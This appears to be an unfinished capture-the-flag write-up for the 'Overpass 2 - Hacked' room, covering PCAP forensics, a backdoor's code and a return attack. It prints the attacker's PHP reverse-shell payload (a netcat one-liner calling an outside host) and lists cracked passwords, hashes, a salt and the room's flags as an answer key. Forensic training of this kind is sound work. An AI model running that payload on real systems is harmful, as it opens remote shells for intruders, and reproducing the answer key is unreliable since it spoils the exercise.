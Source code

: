 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

**Note:** This CTF expects you to be familiar with using tools and Linux CLI, but I will explain the best that I can as we walk through this room.

## Task 1 - *Forensics - Analyse the PCAP*

### 1. What was the URL of the page they used to upload a reverse shell?

**Analysis:** So we know that the attacker has **uploaded** some kind of payload to a **web server**. Knowing it's some type of interaction with a **web server**, I think we can safely assume that the protocol we should filter for in Wireshark is **HTTP**. <br>
![image](https://user-images.githubusercontent.com/85798849/222154541-e10bdb04-8dd1-46c6-8779-fb970c6bb297.png)
Now that we only see **HTTP** traffic, we now see an interesting **POST** request which contains the URL of the page that the attacker uploaded the payload to. <br>
*(Note: An HTTP POST request is used to send data to a server to create/update a resource.)*

**Answer:** `/development/` <br>

---

### 2. What payload did the attacker use to gain access?
**Analysis:** <br>

**Answer:** `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`\

**Q:** What password did the attacker use to privesc? \
**Mindset:** \
**Answer:** `whenevernoteartinstant` \
**Explaination:**

**Q:** How did the attacker establish persistence? \
**Mindset:** \
**Answer:** `https://github.com/NinjaJc01/ssh-backdoor` \
**Explaination:**

**Q:** Using the fasttrack wordlist, how many of the system passwords were crackable? \
**Mindset:** \
**Answer:** `4` \
**Explaination:**

## Task 2 - *Research - Analyse the code*

**Q:** What's the default hash for the backdoor? \
**Mindset:** \
**Answer:** `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` \
**Explaination:**

**Q:** What's the hardcoded salt for the backdoor? \
**Mindset:** \
**Answer:** `1c362db832f3f864c8c2fe05f2002a05` \
**Explaination:**

**Q:** What was the hash that the attacker used? - go back to the PCAP for this! \
**Mindset:** \
**Answer:** `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` \
**Explaination:**

**Q:** Crack the hash using rockyou and a cracking tool of your choice. What's the password? \
**Mindset:** \
**Answer:** `november16` \
**Explaination:**

## Task 3 - *Attack - Get back in!*

**Q:** The attacker defaced the website. What message did they leave as a heading? \
**Mindset:** \
**Answer:** `H4ck3d by CooctusClan` \
**Explaination:**

### Using the information you've found previously, hack your way back in!

**Q:** What's the user flag? \
**Mindset:** \
**Answer:** `thm{d119b4fa8c497ddb0525f7ad200e6567}` \
**Explaination:**

**Q:** What's the root flag? \
**Mindset:** \
**Answer:** `thm{d53b2684f169360bb9606c333873144d}` \
**Explaination:**
